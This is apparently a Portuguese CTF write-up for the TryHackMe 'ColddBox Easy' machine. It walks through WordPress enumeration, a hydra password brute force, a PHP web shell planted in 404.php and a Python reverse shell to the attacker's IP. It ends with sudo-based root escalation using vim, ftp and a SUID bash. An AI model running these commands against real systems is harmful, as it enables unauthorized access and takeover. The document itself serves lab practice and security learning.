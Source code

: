 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - ColddBox - Fácil
date: 2024-01-08 02:26:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, sudo, wordpress, facil]     # TAG names should always be lowercase
show_image_post: true
---
```


![logo](/assets/img/ColddBox3.png){: w="100" h="100" .left}

___

# TryhackMe - ColddBox Fácil
---
---
## Enumeração

Ao acessar o site chequei com a extensão wappalyser

![Alt text](/assets/img/ColddBox1.png)

Wordpress encontrando rodei o 

### nmap

```text
──(kali💀kali)-[~]
└─$ sudo nmap 10.10.161.138 -Pn -sV        
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-07 20:52 EST
Nmap scan report for 10.10.161.138
Host is up (0.22s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.00 seconds
```
{: .nolineno }
 
### gobuster


```text
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/hidden               (Status: 200) [Size: 340]
/server-status        (Status: 403) [Size: 278]
/wp-content           (Status: 200) [Size: 0]
/wp-includes          (Status: 200) [Size: 26809]
Progress: 20469 / 20470 (100.00%)
/wp-admin             (Status: 200) [Size: 2567]
===============================================================
Finished
===============================================================
```
{: .nolineno }

de interessante apenas /hidden e a pagina de login do wordpress /wp-admin

conteúdo da /hidden

```text
U-R-G-E-N-T

C0ldd, you changed Hugo's password, when you can send it to
him so he can continue uploading his articles. Philip
```
{: .nolineno }

### wpscan
 
 Me retornou alguns usuários validos
 
```text
 [+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
{: .nolineno }
## Acesso

### hydra

Adicionei os 3 em users.txt

* c0ldd
* philip
* hugo


Tentei usar o patator por achar mais rápido, mas nao ficou estável,  por má configuração ou sei la...
Optei então pelo hydra

```shell
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 10.10.161.138 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 60 -F 
```
{: .nolineno }

Rapidamente me retornou login e senha

```text
[80][http-post-form] host: 10.10.161.138   login: c0ldd   password: 9876543210
```
{: .nolineno }

### Reverse Shell

Pesquisei por métodos de reverse shell encontrei esses
[aqui](https://gab3.medium.com/t%C3%A9cnicas-para-conseguir-reverse-shell-em-ambientes-wordpress-ede0b289a644)

Tentei o método do plugin as vezes retornava um erro, não sei se por conta do lag com servidor.
Optei pelo método de injetar a reverse shell  na 404.php

**Apenas adicionei o código na 404.php**

```php
echo shell_exec($_GET["cmd"]);
```
{: .nolineno }
![Alt text](/assets/img/ColddBox2.png)

Ao executar a pagina 404.php no navegador temos uma webshell que podemos executar comandos.

```text
Exemplo
/404.php?cmd=ls
```
{: .nolineno }

Tentei usar socat com wget e foi sem exito então , optei pelo python

```text
http://10.10.161.138/wp-content/themes/twentythirteen/404.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.6.125.125%22,4443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
{: .nolineno }

**Upgrade para shell interativa**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
ctrl+z
stty raw -echo;fg
export TERM=xterm-256color
```
{: .nolineno }

## Escalação de privilégio

Por pesquisa descobri que  wp-config.php contem login:senha do mysql

```text
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```
{: .nolineno }
Nada de útil encontrando no DB

/etc/passwd sem permissões de escrita

Tentei logar com as credencias do db na maquina e OK

```bash
su - c0ldd 
c0ldd@ColddBox-Easy:~$ 

Primeira flag obtida
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```
{: .nolineno }
Com sudo -l, é possível ver três formas de obter root, optei pelo vim.


```shell
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:~$ sudo -u root vim -c ':!/bin/bash'
root@ColddBox-Easy:/# 
```
{: .nolineno }
com cat em /root.txt obtivemos a ultima flag

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

**Obter root com ftp**

sudo -u root ftp
ftp> !/bin/bash

**Obter root com chmod**

sudo -u root chmod 4775 /bin/bash

O 4 no início representa a permissão SUID (Set User ID). Quando definido em um arquivo executável, permite que um usuário que execute o arquivo temporariamente assuma as permissões do proprietário do arquivo. No caso do /bin/bash, isso permitiria que o usuário que o execute temporariamente tenha privilégios de root durante a execução.

bash -p

O argumento p preserva o bit SUID do  arquivo